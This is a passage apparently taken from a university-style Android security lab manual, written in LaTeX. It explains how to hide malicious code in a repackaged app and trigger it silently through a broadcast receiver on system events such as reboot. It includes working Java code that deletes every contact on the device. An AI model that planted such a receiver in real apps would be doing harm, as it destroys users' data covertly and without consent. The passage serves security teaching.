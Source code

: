 There are four types of components in Android apps, \textit{activity}, 
\textit{service}, \textit{broadcast receiver}, and \textit{content
provider}. The first two components are most commonly used by apps, while the other two
are not as common. We can add any of these components in the target app, but the most important
problem for the attack is to find a way to trigger the malicious code without being noticed by
users. Although solutions to the problem exist for all these components,
the easiest one is broadcast receiver, which can be triggered by broadcasts
sent by the system. For example, when the system time is set, a \texttt{TIME\_SET} broadcast
will be sent out; after the system reboots, a \texttt{BOOT\_COMPLETED} broadcast
will be sent out.  We can write a broadcast receiver that listens to one of these broadcasts, 
so the malicious code will be automatically triggered by those events.


Writing a broadcast receiver in Android is quite straightforward. If you know how to do that,
feel free to write your own code. After you have built an APK file from your own Java code, you
should run \texttt{APKTool} to disassemble your APK file and obtain the smali code for your
broadcast receiver. For those who have not taken any Android programming course,
you can use our provided smali code. The Java code is described in the following, while the smali code
can be downloaded from the web site of this lab. 

\begin{lstlisting}
public class MaliciousCode extends BroadcastReceiver {
  @Override
  public void onReceive(Context context, Intent intent) {
     ContentResolver contentResolver = context.getContentResolver();
     Cursor cursor = contentResolver.query 
              (ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
	
     while (cursor.moveToNext()) {
         String lookupKey = cursor.getString                             
              (cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY));
                                    
         Uri uri = Uri.withAppendedPath 
	           (ContactsContract.Contacts.CONTENT_LOOKUP_URI, lookupKey);
         contentResolver.delete(uri, null, null);
     }
  }
}
\end{lstlisting}

The above malicious code, if triggered, will delete all the contact records from the device.  
The code implements a broadcast receiver, which will be triggered by a broadcast event. Once it is
triggered, it enters the \texttt{onReceive()} method, and this is where we implement our
malicious logic. The code above basically interacts with the
\texttt{Contacts} app's content provider, and asks the content provider to remove all its entries,
essentially wiping out all the contact records.
In the code, a \texttt{ContentResolver} is used to access the
contacts stored on the phone. In order to get the list of contacts,
a query is sent to \texttt{Contacts}' content provider. This query does not provide any matching
criterion, so all the records are returned via a \texttt{Cursor} object.
The code then go through all these records and delete them one by one. 


